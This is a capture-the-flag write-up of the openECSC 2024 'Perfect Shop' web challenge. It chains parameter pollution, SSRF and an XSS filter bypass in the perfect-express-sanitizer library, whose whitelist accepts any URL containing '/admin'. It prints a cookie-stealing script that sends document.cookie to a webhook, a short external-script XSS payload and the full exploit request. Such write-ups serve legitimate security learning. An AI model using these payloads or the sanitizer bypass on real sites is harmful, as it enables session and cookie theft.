





# CTF Info

- CTF name: openECSC 2024 - Round 1
- Challenge name: Perfect Shop
- Category: Web
- Points: 50
# Description

```
Do you like perfect things? Check out my new online shop!

Site: http://perfectshop.challs.open.ecsc2024.it
```
# Initial thoughts

## First look at the webpage

In my initial exploration of the website, I noticed it had various products listed with brief descriptions and prices.



Seeing a search bar raised some suspicion for me because they're often used for sneaky attacks like reflected [Cross-site scripting (XSS)](https://en.wikipedia.org/wiki/Cross-site_scripting) or [SQL injections](https://en.wikipedia.org/wiki/SQL_injection). Additionally, I stumbled upon an admin page where we could tweak product details, although it seemed pointless without an admin password.



At the bottom of each page, there's a "Report abuse" link that leads to another site where users can report issues with specific products. My hacker instincts hinted that this could be significant later on, considering we could input our own text. It seemed odd to have this feature, prompting me to ponder the intentions of the CTF author. Was it merely a ploy to mislead us, or could it serve a deeper purpose in the challenge? It's important to think like the author to discern the true motives behind its inclusion.



## Source code analysis

Now that I've explored the website, it's time to delve into the source code provided with the challenge. Let's start by examining the `docker-compose.yml` file to locate where the flag might be stored. Upon inspection, it seems the flag is stored in an environment variable on the webserver, similar to what we saw in the Fileshare challenge. Additionally, there's a `headless` worker present, suggesting that the webserver might communicate with it to send the flag, akin to the mechanism in the Fileshare challenge. This is just my initial hypothesis based on what I've observed so far.



In this challenge, there are numerous files to sift through. Upon examining each one, it becomes apparent that `server.js` handles most of the logic for the webserver. While there's a lot happening within this file, let's focus on analyzing how the flag is being processed step by step.
First, on line 10, we encounter the initialization of a variable:

```javascript
const FLAG = process.env.FLAG || 'openECSC{this_is_a_fake_flag}';
```

Here, this line of code attempts to retrieve the `FLAG` environment variable. If unsuccessful, it assigns a string containing the flag to the variable `FLAG`.
Now, let's have a look where this variable gets used in the code. As I have already predicted earlier, the `FLAG` variable gets used by submitting a report over a POST request.
```javascript
app.post('/report', (req, res) => {
    const id = parseInt(req.body.id);
        if (isNaN(id) || id < 0 || id >= products.length) {
        res.locals.errormsg = 'Invalid product ID';
        res.render('report', { products: products });
        return;
    }
    
    fetch(`http://${HEADLESS_HOST}/`, {
        method: 'POST',
        headers: { 'Content-Type': 'application/json', 'X-Auth': HEADLESS_AUTH },
        body: JSON.stringify({
            actions: [
                {
                    type: 'request',
                    url: `http://${WEB_DOM}/`,
                },
                {
                    type: 'set-cookie',
                    name: 'flag',
                    value: FLAG
                },
                {
                    type: 'request',
                    url: `http://${WEB_DOM}/product/${req.body.id}`
                },
                {
                    "type": "sleep",
                    "time": 1
                }
            ]
         })
    }).then((r) => {
        if (r.status !== 200) {
            res.locals.errormsg = 'Report submission failed, contact an admin if the problem persists';
        } else {
            res.locals.successmsg = 'Report submitted successfully';
        }
        res.render('report', { products: products });
    }).catch(() => {
        res.locals.errormsg = 'Failed to submit report, contact an admin if the problem persists';
        res.render('report', { products: products });
    });
});
```

Let's break down this code snippet to understand it better. First, it parses the `id` and verifies if it's a valid identifier. It checks whether the `id` field is empty, if the `id` value is less than 0, or if the `id` value exceeds certain limits. For the latter condition, it calculates the number of entries stored in the `products` variable.

```javascript
const id = parseInt(req.body.id);
        if (isNaN(id) || id < 0 || id >= products.length) {
        res.locals.errormsg = 'Invalid product ID';
        res.render('report', { products: products });
        return;
    }
```

But what even is the `id`? Let's submit a report and capture that request in [Burp Suite](https://portswigger.net/burp/communitydownload).

```http
POST /report HTTP/1.1
Host: perfectshop.challs.open.ecsc2024.it
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 17
Origin: http://perfectshop.challs.open.ecsc2024.it
Connection: close
Referer: http://perfectshop.challs.open.ecsc2024.it/report
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1

id=0&message=Test
```

Hmm... Upon selecting the option to submit a report for the `Awesome Product` (which happens to be the first item available), the `id` appears to be 0. Now, let's proceed to submit a report for the product listed after the `Awesome Product`, which is the `Incredible Product`.

```http
POST /report HTTP/1.1
Host: perfectshop.challs.open.ecsc2024.it
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 17
Origin: http://perfectshop.challs.open.ecsc2024.it
Connection: close
Referer: http://perfectshop.challs.open.ecsc2024.it/report
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1

id=1&message=Test
```

Alright, it appears that the `id` serves as a numerical representation for each product, simplifying the process for the server to identify which product it needs to access.
Good, now that we understand what the `id` represents, the question is: how does this knowledge benefit us? Let's investigate what occurs after the `id` check.

```javascript
fetch(`http://${HEADLESS_HOST}/`, {
        method: 'POST',
        headers: { 'Content-Type': 'application/json', 'X-Auth': HEADLESS_AUTH },
        body: JSON.stringify({
            actions: [
                {
                    type: 'request',
                    url: `http://${WEB_DOM}/`,
                },
                {
                    type: 'set-cookie',
                    name: 'flag',
                    value: FLAG
                },
                {
                    type: 'request',
                    url: `http://${WEB_DOM}/product/${req.body.id}`
                },
                {
                    "type": "sleep",
                    "time": 1
                }
            ]
         })
    }).then((r) => {
        if (r.status !== 200) {
            res.locals.errormsg = 'Report submission failed, contact an admin if the problem persists';
        } else {
            res.locals.successmsg = 'Report submitted successfully';
        }
        res.render('report', { products: products });
    }).catch(() => {
        res.locals.errormsg = 'Failed to submit report, contact an admin if the problem persists';
        res.render('report', { products: products });
    });
});
```

To summarize, a JSON is dispatched to the `headless` server, directing it to perform two requests: firstly, to access the page directly, and then to navigate to view the product, similar to the process in the Fileshare challenge. The `id` is attached to the end of the URL for the second request. It's worth noting that the flag is set as a cookie during the second request. Additionally, the `message` remains entirely ignored and is irrelevant to this challenge.
With all that information, it becomes pretty clear that there needs to be a way to insert XSS in anyway or another. My first thought was, that I could try to change the description of a product, so it would execute XSS. I already observed that I need to provide the admin password for editing a product. In the `server.js` a variable is initialized at the start of the script that is called `admin_password`. Let's observe that variable.

```javascript
const admin_password = crypto.randomBytes(20).toString('hex');
```

🙃 -> was my first reaction to this line of code. To illustrate why cracking that password isn't feasible, I've provided an example password generated by this function.


Yeah, I reckon this won't be cracked by the end of round 1. Perhaps there's another aspect in the call responsible for editing a post that could be exploited.

```javascript
app.post('/admin/:id', (req, res) => {
    const id = parseInt(req.params.id);
    if (isNaN(id) || id < 0 || id >= products.length) {
        res.status(404).send('Not found');
        return;
    }

    if (req.body.password !== admin_password) {
        res.locals.errormsg = 'Invalid password';
        res.render(' edit_product', { product: products[id] });
        return;
    }
  
    if (req.body.name) {
        products[id].name = req.body.name;
    }
  
    if (req.body.description) {
        products[id].description = req.body.description;
    }
  
    const price = parseFloat(req.body.price);
    if (!isNaN(price) && price >= 0) {
        products[id].price = req.body.price;
    }
  
    res.locals.successmsg = 'Product updated successfully';
    res.render('edit_product', { product: products[id] });
});
```

Well, that appears quite secure to me. Additionally, if someone had altered the products, it would have been noticeable to everyone, considering that essentially every player is utilizing the same system. When I attempted to solve this challenge, some individuals had already succeeded, and since the descriptions remained unchanged, I reasoned that this couldn't be the solution. 
At this point, I couldn't pinpoint an entry vector. So, I began experimenting with the report submission function, drawing upon my accumulated knowledge from CTF challenges and web pentests. 

## Finding the Parameter Pollution vulnerability

Eventually, I stumbled upon the ability to add an additional argument, `id`, by employing a technique known as "[Parameter Pollution](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/04-Testing_for_HTTP_Parameter_Pollution)". By adding another `id` field to the POST request, it confuses the server. While the behavior varies across programming languages, in Express JS, adding multiple `id` fields results in the values being saved in an array. This concept might be perplexing for newcomers—I was puzzled by it myself initially. Let's explore this behavior further by setting up our own docker container. I've inserted a print statement using `console.log(req.body.id)` into the function handling the report submission to examine this behavior closely.
This time, we'll utilize the `Burp Repeater`, allowing us to repeat our requests and make slight modifications. Initially, we'll send a standard request and inspect the server's response to understand its behavior.

```http
POST /report HTTP/1.1
Host: 127.0.0.1:3000
Content-Length: 17
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:3000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:3000/report
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

id=2&message=fgdf
```

The server prints:

```
web_1                | 2
```

Makes sense, right? Now, let's include another `id` just like this:

```http
POST /report HTTP/1.1
Host: 127.0.0.1:3000
Content-Length: 17
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:3000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:3000/report
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

id=2&id=4&message=fgdf
```

Here's how the server processes it:

```
web_1                | [ '2', '4' ]
```

How does this aid us? Well, given that it utilizes the `parseInt` function to parse the integer and perform checks on the `id`, we can exploit this behavior to our advantage. Strangely, the `parseInt` function only considers the first value from the array and disregards the rest. Therefore, if we provide a valid `id` in the initial `id` parameter, we should have the freedom to input whatever we desire. Let's put this theory to the test.

```
web_1                | [ '2', 'Test' ]
```

The server displays our new `id` alongside a `Test` string. Additionally, we receive the message "Report submitted successfully" on the frontend, confirming that the operation was successful.
But what is the `headless` server's response to this information? Let's inspect the docker logs. While numerous entries are logged, one line specifically displays the request being made.

```
headless-worker_1    | [2024-03-27 14:23:59,090][JOB 20261d76-a20e-475d-9cc8-11ab396f34ad][DEBUG]   - 200 http://web:3000/product/2,Test
```

Fantastic, so we've transitioned from Parameter Pollution to [Server-Side Request Forgery (SSRF)](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery). Now, we could inject `/../../` into the second `id` parameter, granting us control over this request. This would shape the request to appear like this: `http://web:3000/`. However, there's a hurdle: we can't simply add another URL. If attempted, it would appear as follows: `http://web:3000/https://example.com`, which won't function because the browser interprets it as a specific path from web:3000.


## The rabbithole
I experimented with various methods, from attempting to confuse URL parsing to researching specific CVEs related to the Firefox version used by the `headless` server.
Regarding URL parsing confusion: Most of what I found pertained to a particular CVE, which didn't seem to apply to my setup or simply didn't yield results. I attempted it with multiple Unicode characters, but it failed to produce the desired outcome.
Concerning the Firefox version: The [official documentation](https://hub.docker.com/r/cybersecnatlab/challenge-headless) for the `headless` server indicated its use of Firefox version `116.0.3`. I investigated several CVEs for this specific Firefox version and even came across [CVE-2023-5732](https://bugzilla.mozilla.org/show_bug.cgi?id=1690979). Essentially, this vulnerability causes the browser to interpret Unicode characters, such as `ק.קום`, in a way that converts the URL, making the path match our input. However, this approach didn't yield the desired results for me, though I may not have exerted enough effort in testing it thoroughly.

However, do you recall the `search` function we discussed earlier in this write-up? It might actually prove to be useful after all.

# The solution

I experimented with the `search` function, attempting to inject XSS payloads persistently. However, it appeared that there was a filter in place, replacing my XSS attempts with empty strings. I consulted the XSS cheat sheet by [Portswigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) and a more advanced version found on [GitHub](https://github.com/fg0x0/XSS-Cheat-Sheets-2020), but none of the payloads proved effective, mainly due to the constraint that the `search` query couldn't exceed 50 characters. Determined to circumvent the filter, I examined the source code of `server.js` and discovered the presence of a sanitizer named `Perfect Express Sanitizer`.

```javascript
[...]
const sanitizer = require("perfect-express-sanitizer");
[...]
app.use(sanitizer.clean({ xss: true }, ["/admin"]));
```

I have seen this library before in a different challenge before, but in a different context than this. It seems to sanitize all XSS except for the `/admin` parameter. We already figured out, that we can't edit anything in the `/admin` parameter, from the examination from before, so I was kind of frustrated and searched for several hours how I could use this to my advantage. On the next day, I was looking into the `Perfect Express Sanitizer` source code, that I found on [GitHub](https://github.com/pariazar/perfect-express-sanitizer/tree/a4173c5061edd20ff13c354d2ed5a7b87e184973). I wanted to see, how this library determines, whether I was accessing the path `/admin` or not. I inspected the `index.js` that was responsible for checking if the path is whitelisted or not.

```javascript
const sanitize = require("./modules/");

function middleware(
  options = {},
  whiteList = [],
  only = ["body", "params", "headers", "query"]
) {
  return (req, res, next) => {
    only.forEach((k) => {
      if (req[k] && !whiteList.some((v) => req.url.trim().includes(v))) {
        req[k] = sanitize.prepareSanitize(req[k], options);
      }
    });
    next();
  };
}

module.exports = {
  clean: middleware,
  sanitize,
};
```

Interesting. If the URL path simply contains `/admin`, it counts as whitelisted? Let's try it. I used the search bar on the challenge page and wanted to know if XSS triggers in my browser with this simple URL: `http://perfectshop.challs.open.ecsc2024.it/search?q=%3Cscript%3Ealert(1)%3C%2Fscript%3E/admin`.

> Note: Simply inputting `<script>alert(1)</script>/admin` into the search function won't trigger the XSS vulnerability as expected; instead, our input will be sanitized. This occurs because the server encodes your query into URL format when it's not explicitly entered into the URL bar.



Wow, it worked???!!! I uncovered a [zero-day vulnerability](https://en.wikipedia.org/wiki/Zero-day_(computing)) in a JavaScript library, which was an exhilarating and remarkable discovery.
Now, let's try to put this into practice: we want the `headless` server to access a site with the `document.cookie` appended to the URL as a parameter. For this, we can use [Webhook](https://webhook.site), where we can generate a unique URL that will give us information about the request that accessed that unique URL (I explained what Webhook does a little further in my Fileshare writeup). But, there's a certain limitation: Our XSS can't be longer than 50 characters, because otherwise it would be discarded. 
I approached a fellow student at my university and requested access to his domain, as he owned a very short domain. Fortunately, he agreed to share it with me, which made me quite pleased. Afterwards, I began searching for some compact XSS solutions. After some searching, I came across this [excellent article](https://medium.com/taptuit/minifying-xss-f17d7dc241cf). In the article, the author presented this XSS snippet:

```html
<script src=//a.io>
```

He elaborated that we could incorporate JavaScript code from external sources by appending `src` to the `script` tag. Additionally, he mentioned that we could omit the `http:` or `https:` prefixes, as the browser automatically defaults to using the protocol of the web server, which it includes at the beginning of the domain.
Now, on a machine hosted on the domain of my fellow student, I crafted a file named `x.js` with the following content:

```javascript
window.location="https://webhook.site/8bb7d716-2b5e-43e4-a93a-9858c832ce0b?c=".concat(document.cookie)
```

This script navigates to the Webhook site and appends all cookies to the URL as parameters. Finally, I launch an HTTP server on port 80 with the following command:

```python
sudo python -m http.server 80
``` 

Everything is ready now, all that's left is to submit a report. For my ultimate payload, I used this HTTP request, combining Parameter Pollution, SSRF, and XSS into one powerful attack:

```http
POST /report?=/admin HTTP/1.1
Host: perfectshop.challs.open.ecsc2024.it
Content-Length: 141
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://perfectshop.challs.open.ecsc2024.it
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://perfectshop.challs.open.ecsc2024.it/report
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close


id=4&id=/../../search?q=<script src=//nain.at/x.js>/admin&message=dfg
```

> Note: I also had to append a URL parameter to the `/report` path with `/admin`, as otherwise my XSS would have been sanitized. This is because `/report` isn't whitelisted either.

With all these steps completed, we can view the result on Webhook and confirm that we successfully retrieved the flag `openECSC{4in't_s0_p3rfect_aft3r_4ll}`.

# Lessons learned

- **Critical analysis of webpage components**: The challenge highlighted the importance of critically analyzing webpage components, such as search bars and admin interfaces, for potential vulnerabilities. Suspicious elements, like the search bar, can often serve as entry points for attacks like Cross-Site Scripting (XSS) or SQL Injection.
- **Exploration of whitelisting and blacklisting mechanisms**: The challenge underscored the significance of exploring whitelisting and blacklisting mechanisms within the application. Identifying how these mechanisms operate, as demonstrated by the `Perfect Express Sanitizer`, provided insights into potential bypass techniques.
- **Creative exploitation of Parameter Pollution**: Discovering and exploiting the Parameter Pollution vulnerability demonstrated the importance of creative thinking and experimentation. Manipulating input parameters to confuse the server and trigger unexpected behavior proved to be a powerful attack vector. Sometimes, it just doesn't suffice to only read the source code to understand how the webserver works.
- **Resourcefulness and collaboration**: Seeking assistance from peers and leveraging external resources, such as domain access from a fellow student, highlighted the value of resourcefulness and collaboration in overcoming challenges. 
- **Attention to detail in payload crafting**: Crafting payloads with attention to detail, such as ensuring XSS payloads remain under the 50-character limit, emphasized the importance of precision in payload creation.

# Conclusion

In conclusion, my exploration of the Perfect Shop challenge led me through a maze of strategies and discoveries. Initially, I navigated the website's interface, scrutinizing its features and functionalities. The presence of a search bar and an admin page piqued my interest, hinting at potential vulnerabilities.
Further investigation into the source code unveiled important insights. I analyzed how the server handled reports, discovering an intriguing interplay between the `id` parameter and the backend logic. Leveraging techniques like Parameter Pollution and SSRF, I uncovered pathways to manipulate server requests and potentially access sensitive information.
My journey took an unexpected turn when I encountered a filtering mechanism during my XSS attempts. Undiscouraged, I delved into the server's codebase, unraveling the inner workings of the `Perfect Express Sanitizer`. Through meticulous examination and experimentation, I found a loophole in the sanitizer's whitelist mechanism, opening a path for XSS exploitation.
Armed with this newfound knowledge, I devised a multi-faceted attack combining Parameter Pollution, SSRF, and XSS. With precise crafting of HTTP requests and strategic payload placement, I orchestrated a sophisticated assault on the system. Through collaboration and resourcefulness, including securing a domain from a fellow student and optimizing XSS payloads, I executed the final steps of the attack.
In the end, my efforts culminated in success as I found the flag. The experience underscored the importance of meticulous analysis, creative problem-solving, and persistence in navigating complex cybersecurity challenges.

# Acknowledgments

Thanks to my fellow student, Fabian Bruckmoser, who gave me access to his very short domain ♥.